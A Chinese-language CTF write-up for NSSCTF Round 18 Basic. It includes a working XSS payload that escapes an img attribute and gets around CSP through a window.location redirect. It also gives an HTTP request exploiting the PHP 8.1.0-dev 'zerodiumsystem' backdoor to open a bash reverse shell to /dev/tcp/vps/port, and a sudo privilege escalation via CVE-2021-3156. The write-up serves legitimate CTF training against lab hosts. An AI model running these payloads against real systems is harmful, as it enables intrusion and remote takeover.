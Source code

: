# NSSCTF Round 18 Basic

  

&lt;!--more--&gt;  
## 门酱想玩什么呢？  
右键源代码发现`nssctfroundSpring.php`  
```php  
&lt;?php    
highlight_file(__FILE__);    
//部分关键代码    
$contentLines = explode(&#34; &#34;, $comment[&#39;content&#39;]);    
if (preg_match(&#39;/^https?:\/\/\S&#43;$/&#39;, $contentLines[0])) {    
    if (preg_match(&#39;/^https?:\/\/[^\/]&#43;\/\S&#43;\.png$/&#39;, $contentLines[0], $matches) &amp;&amp; end($contentLines) === &#39;/png&#39;) {        $urlParts = parse_url($matches[0]);    
        if ($urlParts !== false) {    
            echo &#39;&lt;img class=&#34;content&#34; src=&#34;&#39; . $matches[0] . &#39;&#34;&gt;&#39;;            //.......        }        //......    }    //......    
}  
```  
很明显存在`xss`  
通过查看评论区得知需要在门酱处访问元梦之星官网的`url`，在发表评论处正是上面得到的代码，于是利用 xss 还需要绕过`CSP`  
`Content-Security-Policy: script-src &#39;self&#39; &#39;unsafe-inline&#39;;`  
利用`window.location`  
构造`poc`  
`https://&#34;&gt;&lt;script&gt;window.location=&#34;https://ymzx.qq.com/&#34;&lt;/script&gt;.png /png`  
得到
`http://node2.anna.nssctf.cn:28764/words/?title=MQ==&amp;content=aHR0cHMlM0ElMkYlMkYlMjIlM0UlM0NzY3JpcHQlM0V3aW5kb3cubG9jYXRpb24lM0QlMjJodHRwcyUzQSUyRiUyRnltengucXEuY29tJTJGJTIyJTNDJTJGc2NyaXB0JTNFLnBuZyUyMCUyRnBuZw==`  
在门酱处插入得到`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141654151.png)
## Becomeroot  
8.1.0-dev后门漏洞  
```http  
GET / HTTP/1.1  
Host: node1.anna.nssctf.cn:28073  
Accept-Encoding: gzip, deflate  
Accept: */*  
Accept-Language: en  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36  
User-Agentt: zerodiumsystem(&#34;bash -c &#39;bash -i &gt;&amp; /dev/tcp/vps/port 0&gt;&amp;1&#39;&#34;);  
Connection: close  
```  
利用工具进行扫描提权漏洞  
https://github.com/The-Z-Labs/linux-exploit-suggester  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141755588.png)
利用`CVE-2021-3156`提权  
https://github.com/Rvn0xsy/CVE-2021-3156-plus?tab=readme-ov-file  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141752513.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/nssctf-round-18-basic/  


